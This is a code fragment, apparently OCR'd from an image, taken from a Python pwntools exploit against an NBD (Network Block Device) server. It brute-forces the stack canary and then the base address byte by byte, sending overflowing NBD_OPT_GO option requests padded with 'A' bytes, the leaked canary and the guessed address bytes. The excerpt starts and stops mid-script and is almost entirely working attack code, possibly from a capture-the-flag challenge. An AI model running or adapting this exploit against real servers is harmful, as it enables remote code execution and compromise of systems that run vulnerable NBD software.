 ```python
        print(f"Ok! found canary[{j:d}] = {i:02x}")
        canary[j] = i
        break
      except EOFError:
        continue
  return canary

canary = get_canary()

#canary = [0, 0x32, 0xd7, 0xfd, 0xd8, 0xe, 0x32, 0xcb]

def get_base():
  base = [0] * 8
  for j in range(8):
    for i in range(1<<8):
      base[j] = i
      try:
        io = remote(HOST, PORT)

        buf = io.recv(8)
        assert(buf == INIT_PASSWD)

        log.info("received INIT_PASSWD")

        magic = u64(io.recv(8), endian="big")
        assert(magic == opts_magic)

        log.success(f"received opts magic {magic:#x}")

        gflags = u16(io.recv(2), endian="big")
        log.info(f"global flags are {gflags:#x}")

        cflags = NBD_FLAG_FIXED_NEWSTYLE
        if (gflags & NBD_FLAG_NO_ZEROES):
          cflags |= NBD_FLAG_NO_ZEROES

        io.send(p32(cflags, endian="big"))

        length = 1032+4+16+1+j
        payload  = b"A"*1028

        # canary
        for p in range(8):
          payload += p8(canary[p])

        payload += p64(0xdeadbeef)

        # copy previous values
        for k in range(j):
          payload += p8(base[k])

        # add current
        payload += p8(base[j])

        payload += b"D" * (length-4-len(payload))

        namelen  = length 

        send_request(NBD_OPT_GO, length, namelen, payload, io)

        header = p64(opts_magic, endian="big") + \
            p32(NBD_OPT_GO, endian="big") + p32(0, endian="big")

```